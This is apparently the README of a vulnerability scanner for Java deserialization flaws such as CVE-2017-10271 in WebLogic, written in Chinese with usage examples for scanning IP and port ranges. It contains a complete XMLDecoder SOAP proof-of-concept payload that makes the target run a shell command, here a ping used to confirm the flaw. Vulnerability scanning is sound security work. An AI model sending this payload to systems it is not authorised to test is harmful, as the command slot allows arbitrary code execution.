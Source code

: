 # java反序列化漏洞检测

针对类似CVE-2017-10271漏洞的一个java反序列化漏洞扫描器，此项目中只有一个poc，其他暂时未做整理。

## 安装

1. 安装nmap

   ​	https://nmap.org/download.html 根据操作系统的不同，下载不同的版本安装。

2. 安装第三方包

   `pip install -r requirements.txt`

3. 扫描

   修改poc，将ping命令中的ip地址改为自己的ip地址

   修改第25行sniff代码

   ```
   sniff(filter='icmp and yourIP',prn=packet_callback)
   ```

   `java_scan.py -i IP地址 [options]
   java_scan.py -h 获得帮助`

## 使用

#### 1.poc

> 使用前务必修改poc，将ping命令中的ip地址改为自己的ip地址

poc为两个json格式的文件分别适用于windows和linux（目前并没有加入指定poc路径的功能，后续版本中将加入该功能）请务必在程序目录使用poc.json和poc_win.json命名poc。

关于poc的格式（linux版，windows版类似）

```json
{
  "url":"wls-wsat/CoordinatorPortType",
  "header": "Content-Type:text/xml",
  "data": [
    "<soapenv:Envelope xmlns:soapenv='http://schemas.xmlsoap.org/soap/envelope/'>",
        "<soapenv:Header>",
            "<work:WorkContext xmlns:work='http://bea.com/2004/06/soap/workarea/'>",
               "<java version='1.8.0_131' class='java.beans.XMLDecoder'>",
                    "<void class='java.lang.ProcessBuilder'>",
                        "<array class='java.lang.String' length='3'>",
                            "<void index='0'>",
                                "<string>/bin/bash</string>",
                            "</void>",
                            "<void index='1'>",
                                "<string>-c</string>",
                            "</void>",
                            "<void index='2'>",
                                "<string>ping 10.60.18.5 -c 2</string>",
                            "</void>",
                        "</array>",
                    "<void method='start'/></void>",
                "</java>",
            "</work:WorkContext>",
        "</soapenv:Header>",
        "<soapenv:Body/>",
    "</soapenv:Envelope>"
  ]
}
```

url指定漏洞利用的目录，header指定post包中新加入的header内容，data是要发送的序列化的内容。

**注意此poc要让漏洞主机返回2个ping包，程序检测到ICMP包时才能确定漏洞存在。**

#### 2.使用nmap对局域网进行扫描

程序默认扫描是调用的nmap对局域网进行扫描

```
java_scan.py -i 192.168.0.1
```

这样扫描是对192.168.0.1的主机的7001端口进行扫描

#### 3.指定ip和端口

指定单个ip和端口

`java_scan.py -i 192.168.0.1 -p 7001`

指定多个ip和多个端口

`java_scan.py -i 192.168.0.1,2,55 -p 7001,8001,9001`

指定ip范围和端口范围

`java_scan.py -i 192.168.0.1-255 -p 7000-8000` 

#### 4.快速的端口开放探测

使用-f参数，将调用socket对端口进行快速探测

`java_scan.py -i 192.168.0.1-255 -p 7001 -f`

指定快速端口探测的线程数

`java_scan.py -i 192.168.0.1-255 -p 7001 -f -t 100`

#### 5.效果

![1543029987919](C:\Users\10326\AppData\Roaming\Typora\typora-user-images\1543029987919.png)